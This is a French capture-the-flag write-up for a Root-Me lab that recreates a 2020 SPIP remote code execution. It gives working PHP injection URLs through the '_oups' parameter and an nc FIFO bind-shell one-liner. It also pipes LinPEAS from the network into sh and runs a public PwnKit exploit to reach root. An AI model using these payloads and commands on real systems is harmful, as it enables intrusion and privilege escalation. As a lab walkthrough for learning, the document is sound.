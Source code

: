 ```yaml
---
title: Réaliste - Breaking Root-Me like it’s 2020
meta_title: ""
description: Réaliste - Breaking Root-Me like it’s 2020
date: 2024-06-19T18:00:00Z
image: /images/rootme_logo.png
categories:
  - Rootme
  - Réaliste
  - Moyen
author: Demat
tags:
  - web-server
  - php
  - remote-code-execution
  - spip
  - cms
  - privilege-escalation
draft: false
---
```


## Description

### Énoncé

**Lien du challenge : [Réaliste - Breaking Root-Me like it’s 2020](https://www.root-me.org/fr/Challenges/Realiste/Breaking-Root-Me-like-it-s-2020)**

> #### Revivre le frisson d’une RCE sur root-me.org
>
> Hello ! Je suis content que tu aies renouvelé ta cotisation annuelle de 15€ !
>
> Voici ton accès au backend de root-me.org, utilise le à bon escient ! ;)
>
> ```text {linenos=table}
> goodguy@contrib.fr:StronkP4ZZ:)
> ```
>
> Le flag se situe dans /flag.txt
>
> #### Ressources associées
>
> - [https://www.spip.net/](https://www.spip.net/)
> - [https://thinkloveshare.com/en/hacking/rce_on_spip_and_root_me/](https://thinkloveshare.com/en/hacking/rce_on_spip_and_root_me/)
>

### Contexte

Il s'agit d'une faille qui a été découverte sur le site web de Root-Me en 2020. C'est un challenge de type RCE (Remote Code Execution) sur un serveur web. Le but est de trouver une faille permettant d'exécuter du code arbitraire sur le serveur distant, afin de lire le contenu du fichier `/flag.txt`.

### Exploitation

#### Premiers pas

Pour commencer, on démarre le challenge sur la plateforme CTF All The Day. Pour ma part, il est hébergé sur le serveur `ctf06.root-me.org`.

En visitant `http://ctf06.root-me.org/`, on peut voir que le site web du challenge est un clone minimaliste de Root-Me, basé sur SPIP. Il s'agit d'un système de gestion de contenu (CMS) libre, écrit en PHP et distribué sous licence GPL, qui permet de créer et de gérer un site web dynamique.

Vu qu'un compte de contributeur est fourni, on peut se connecter à l'interface de publication du CMS avec le login `goodguy@contrib.fr` et le mot de passe `StronkP4ZZ:)`.

#### Exécution de code arbitraire : article de Laluka

Le second lien fourni dans l'énoncé pointe vers un article de blog qui explique comment l'auteur, Laluka, a réussi à exploiter plusieurs failles de sécurité sur le site web de Root-Me en 2020.
Il a trouvé de multiples vulnérabilités, mais celle qui nous intéresse est la RCE détaillée [vers la fin](https://thinkloveshare.com/hacking/rce_on_spip_and_root_me/#xss-on-oups) de l'article.

Il y donne un exemple de payload qui permet d'exécuter une commande sur le serveur, et d'en afficher le résultat dans la page. Adaptée à notre cas, l'URL est la suivante :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='<?php echo fread(popen("id", "r"), 300);?>
```

*A priori*, rien de spécial. Cependant, si on inspecte le code source de la page, on peut voir que l'injection a fonctionné :
![RCE basique](/images/rootme2020/oups-injection.png)

C'est un bon début, mais ce n'est pas très pratique. On peut améliorer le payload pour afficher proprement le résultat de la commande directement sur la page, et augmenter la taille du buffer pour lire plus de 300 caractères :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("id", "r"), 1048576);?></pre><br style='
```

Le résultat est alors bien plus simple à lire :
![RCE plus jolie](/images/rootme2020/oups-injection-pretty.png)

Peut-on directement lire le contenu du fichier `/flag.txt` ? Regardons déjà les permissions du fichier :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("ls -lA /", "r"), 1048576);?></pre><br style='
```

```text {hl_lines=[7,17]}
total 1823824
lrwxrwxrwx   1 root root          7 Jul 31  2020 bin -> usr/bin
drwxr-xr-x   4 root root       4096 Jan  9  2021 boot
drwxr-xr-x   2 root root       4096 Jan  9  2021 cdrom
drwxr-xr-x  18 root root       3980 Jun 20 13:58 dev
drwxr-xr-x  96 root root       4096 Jan 25  2021 etc
-rwx------   1 root root         21 Jan 12  2021 flag.txt
drwxr-xr-x   3 root root       4096 Jan  9  2021 home
lrwxrwxrwx   1 root root          7 Jul 31  2020 lib -> usr/lib
lrwxrwxrwx   1 root root          9 Jul 31  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root          9 Jul 31  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root         10 Jul 31  2020 libx32 -> usr/libx32
drwx------   2 root root      16384 Jan  9  2021 lost+found
drwxr-xr-x   2 root root       4096 Jul 31  2020 media
drwxr-xr-x   2 root root       4096 Jul 31  2020 mnt
drwxr-xr-x   3 root root       4096 Jan  9  2021 opt
-r--------   1 root root         33 Jun 20 13:59 passwd
dr-xr-xr-x 148 root root          0 Jun 20 13:58 proc
drwx------   5 root root       4096 Jan 12  2021 root
drwxr-xr-x  28 root root        840 Jun 20 14:03 run
lrwxrwxrwx   1 root root          8 Jul 31  2020 sbin -> usr/sbin
drwxr-xr-x   6 root root       4096 Jan  9  2021 snap
drwxr-xr-x   2 root root       4096 Jul 31  2020 srv
-rw-------   1 root root 1867513856 Jan  9  2021 swap.img
dr-xr-xr-x  13 root root          0 Jun 20 13:58 sys
drwxrwxrwt   2 root root       4096 Jun 20 13:58 tmp
drwxr-xr-x  14 root root       4096 Jul 31  2020 usr
drwxr-xr-x  14 root root       4096 Jan  9  2021 var
```

Le fichier `/flag.txt` appartient à `root` et n'est accessible en lecture que pour son propriétaire. Il en va de même pour `/passwd`, nécessaire pour valider la box. Le seul moyen de lire ces fichiers est donc d'effectuer une élévation de privilèges.

Essayons déjà d'obtenir un shell interactif pour nous faciliter la tâche. Pour cela, on va utiliser `nc` pour ouvrir un *bind shell* sur le port 31337, par le biais d'une FIFO (named pipe) :

```sh
nohup sh -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i|nc -lp 31337 >/tmp/f'
```

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("nohup sh -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i|nc -lp 31337 >/tmp/f'", "r"), 1048576);?></pre><br style='
```

On peut maintenant se connecter au shell interactif avec [pwncat]({{< ref "/outils/pwncat-cs/" >}}) :
![Shell interactif avec pwncat](/images/rootme2020/pwncat-1.png)

Essayons de trouver une faille d'élévation de privilèges grâce à LinPEAS :

```sh
$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
[...]
╔══════════╣ Executing Linux Exploit Suggester
[...]
[+] [CVE-2021-4034] PwnKit
[...]
```

Entre autres, LinPEAS mentionne la faille [CVE-2021-4034 *"PwnKit"*](https://cyberwatch.fr/cve/cve-2021-4034/), qui affecte Polkit et permet d'obtenir un shell root. Sur Ubuntu 20.04, elle affecte les versions de Polkit inférieures à la version `0.105-26ubuntu1.2`. Vérifions quelle version est installée sur la machine :

```sh
$ dpkg -s policykit-1 | fgrep 'Version'
Version: 0.105-26ubuntu1
```

Bingo ! La version de Polkit semble vulnérable. On peut donc essayer d'exploiter la faille pour obtenir un shell root. J'ai trouvé un exploit fonctionnel sur [GitHub](https://github.com/berdav/CVE-2021-4034) :

```text {hl_lines=["6-11"]}
$ cd /tmp
$ git clone https://github.com/berdav/CVE-2021-4034.git
$ cd CVE-2021-4034
$ make
$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /flag.txt
Can[...-censuré-...]
# cat /passwd
df811f94e1e3b4a06f2015a33ec47dc4
```

Et voià, il ne reste plus qu'à valider la box sur la plateforme CTF-ATD et à soumettre le flag !
